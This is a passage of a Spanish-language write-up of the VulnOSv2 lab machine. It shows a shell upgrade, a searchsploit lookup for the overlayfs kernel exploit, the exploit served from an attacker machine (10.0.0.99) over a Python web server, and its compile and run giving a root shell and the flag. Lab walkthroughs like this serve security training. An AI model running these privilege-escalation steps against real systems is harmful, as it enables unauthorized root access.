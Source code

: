 
Una vez adentro el usuario no levanta ningún interprete de comandos, se soluciona fácil ejecutando el siguiente comando ``/bin/bash``.

Después de buscar un rato apareció un exploit de kernel:

```console
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Lo | exploits/linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Lo | exploits/linux/local/37293.txt
----------------------------------------------------------------------------- ----------------------------------------
```
Manos a la obra.

Levanté un servidor web en python para descargarlo desde la VM atacada:

>**``python -m SimpleHTTPServer 80``**

Desde la VM atacada:

>**``http://10.0.0.99/37292.c``**

```console
webmin@VulnOSv2:~$ mv 37292.c ofs.c
webmin@VulnOSv2:~$ gcc ofs.c -o ofs
webmin@VulnOSv2:~$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
```
---

### **Flag**
---
```console
root@VulnOSv2:/root# cat flag.txt 
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```

---